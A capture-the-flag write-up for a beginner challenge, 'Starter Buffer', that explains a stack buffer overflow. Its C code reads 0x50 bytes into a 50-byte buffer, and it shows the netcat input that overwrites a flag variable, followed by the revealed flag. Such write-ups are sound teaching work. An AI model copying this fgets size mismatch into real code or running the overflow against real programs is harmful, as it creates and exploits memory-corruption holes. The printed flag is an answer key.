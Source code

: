 # Starter Buffer (beginner)
Tell me your favorite number and I might give you the flag ;).

`nc chall.pwnoh.io 13372`

## Files
* buffer
* Dockerfile
* starter-buffer.c

## Solution
The program sets the variable `flag` to `0xaabdcdee`. Later this variable is checked for the value `0x45454545` to execute the `print_flag` function, but we have no chance to input data into this variable:
```c
    int flag = 0xaabdcdee;
    char buf[50] = {0};
	printf("Enter your favorite number: ");
	fgets(buf, 0x50, stdin);

    if(flag == 0x45454545){
        print_flag();
    }
```

But the program uses `fgets` to read the user input. This function can be abused to overflow the buffer. If we enter a value, that is larger than the variable `buf`, it overwrites the data that is stored next to the variable on the stack. And here is also the variable `flag` located.

So to get the flag, we have to enter a value that is bigger than our buffer and overwrite `flag` with `0x45454545`, which is the ASCII representation for the character `E`:
```
$ nc chall.pwnoh.io 13372
Enter your favorite number: EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
bctf{wHy_WriTe_OveR_mY_V@lUeS}
$
```